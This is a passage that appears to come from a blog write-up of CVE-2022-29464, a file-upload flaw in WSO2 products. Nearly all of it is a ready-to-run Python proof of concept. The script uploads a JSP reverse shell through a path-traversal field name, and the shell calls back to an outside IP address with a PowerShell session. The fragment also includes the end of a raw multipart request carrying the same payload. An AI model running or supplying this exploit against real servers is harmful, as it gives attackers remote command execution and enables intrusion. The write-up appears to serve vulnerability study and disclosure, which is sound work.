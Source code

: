 ```
                break;
            } catch (Exception e) {}
        }
        p.destroy();
        s.close();
    } catch (Exception e) {}
%>

------WebKitFormBoundaryRXZulECZUI6kfQJ2--
```

![image]({{ "/assets/img/2025-09-02-CVE-2022-29464/image34.png" | relative_url }})

```python
# 1-Click Python Script POC
import requests

url = "http://127.0.0.1:9443/fileupload/toolsAny"

jsp_payload = """<%@ page import="java.io.*,java.net.*" %>
<%
String host = "161.248.30.56";
int port = 1337;
String cmd = "powershell";
try {
    Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
    Socket s = new Socket(host, port);
    InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
    OutputStream po = p.getOutputStream(), so = s.getOutputStream();
    while (!s.isClosed()) {
        while (pi.available() > 0) so.write(pi.read());
        while (pe.available() > 0) so.write(pe.read());
        while (si.available() > 0) po.write(si.read());
        so.flush();
        po.flush();
        Thread.sleep(50);
        try {
            p.exitValue();
            break;
        } catch (Exception e) {}
    }
    p.destroy();
    s.close();
} catch (Exception e) {}
%>
"""

field_name = "../../../../repository/deployment/server/webapps/accountrecoveryendpoint/finalAnhcd3.jsp"

headers = {
    "User-Agent": "hehe",
    "Accept": "*/*",
    "Connection": "close"
}

files = {
    field_name: ("finalAnhcd3.jsp", jsp_payload, "application/octet-stream")
}

response = requests.post(url, headers=headers, files=files, verify=False)

print("[+] Status:", response.status_code)
```